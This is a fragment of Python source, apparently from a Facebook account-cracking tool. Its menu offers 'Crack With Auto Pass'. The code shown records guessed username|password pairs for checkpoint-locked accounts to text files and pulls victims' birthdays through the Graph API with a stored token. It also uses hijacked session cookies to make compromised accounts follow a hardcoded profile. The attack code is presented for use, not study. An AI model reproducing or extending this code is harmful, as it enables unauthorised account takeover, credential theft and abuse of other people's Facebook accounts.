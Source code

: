                     try:

                        tokenz = open('.token.txt').read()

                        cp_ttl = session.get(f'https://graph.facebook.com/{user}?fields=birthday&access_token={tokenz}').json()['birthday']

                        month, day, year = cp_ttl.split('/')

                        month = bulan_ttl[month]

                        print('\r%s [ABIHA-CP] %s | %s ' % (M, user, pw))

                        wrt = '%s|%s' % (user,pw)

                        cp.append(wrt)

                        open('CP.txt' , 'a').write('%s\n' % wrt)

                        break

                    except (KeyError, IOError):

                        month = ''

                        day   = ''

                        year  = ''

                    except:

                        pass

                    print('\r%s [DIAZ-CP] %s | %s ' % (M, user, pw))

                    wrt = '%s|%s' % (user,pw)

                    cp.append(wrt)

                    open('Reho_CP.txt' , 'a').write('%s\n' % wrt)

                    break

                else:

                    continue

            loop+=1

        except:

            self.__metode__(user, pw, cebok)

    def follow(self, session, coki):

        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100007607054845', cookies={'cookie': coki}).text, 'html.parser')

        get = r.find('a', string='Ikuti').get('href')

        session.get(('https://mbasic.facebook.com' + str(get)), cookies={'cookie': coki}).text

    def __pler__(self):

        print('[1] Crack With Auto Pass ')
